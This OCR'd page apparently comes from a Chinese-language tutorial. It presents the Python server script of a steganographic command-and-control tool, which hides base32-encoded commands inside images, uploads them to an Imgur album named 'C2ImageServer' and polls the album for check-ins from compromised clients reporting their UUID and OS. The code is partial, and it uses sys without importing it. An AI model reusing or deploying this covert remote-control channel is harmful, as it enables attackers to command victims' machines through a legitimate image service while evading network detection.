 考虑到这些步骤，让我们先看看服务器脚本：

```
from imgurpython import ImgurClient
import StegoText, random, time, ast, base64

def get_input(string):
    ''' Get input from console regardless of python 2 or 3 '''
    try:
        return raw_input(string)
    except:
        return input(string)

def create_command_message(uid, command):
    command = str(base64.b32encode(command.replace('\n','')))
    return "{'uuid':'" + uid + "','command':'" + command + "'}"

def send_command_message(uid, client_os, image_url):
    command = get_input(client_os + "@" + uid + ">")
    steg_path = StegoText.hide_message(image_url, create_command_message(uid, command), "Imgur1.png", True)
    print "Sending command to client ..."
    uploaded = client.upload_from_path(steg_path)
    client.album_add_images(a[0].id, uploaded['id'])

    if command == "quit":
        sys.exit()

    return uploaded['datetime']

def authenticate():
    client_id = '<REPLACE WITH YOUR IMGUR CLIENT ID>'
    client_secret = '<REPLACE WITH YOUR IMGUR CLIENT SECRET>'

    client = ImgurClient(client_id, client_secret)
    authorization_url = client.get_auth_url('pin')

    print("Go to the following URL: {0}".format(authorization_url))
    pin = get_input("Enter pin code: ")

    credentials = client.authorize(pin, 'pin')
    client.set_user_auth(credentials['access_token'], credentials['refresh_token'])

    return client

client = authenticate()
a = client.get_account_albums("C2ImageServer")

imgs = client.get_album_images(a[0].id)
last_message_datetime = imgs[-1].datetime

print "Awaiting client connection ..."

loop = True
while loop:
    time.sleep(5)
    imgs = client.get_album_images(a[0].id)
    if imgs[-1].datetime > last_message_datetime:
        last_message_datetime = imgs[-1].datetime
        client_dict =  ast.literal_eval(StegoText.extract_message(imgs[-1].link, True))
        if client_dict['status'] == "ready":
            print "Client connected:\n"
            print "Client UUID:" + client_dict['uuid']
            print "Client OS:" + client_dict['os']
```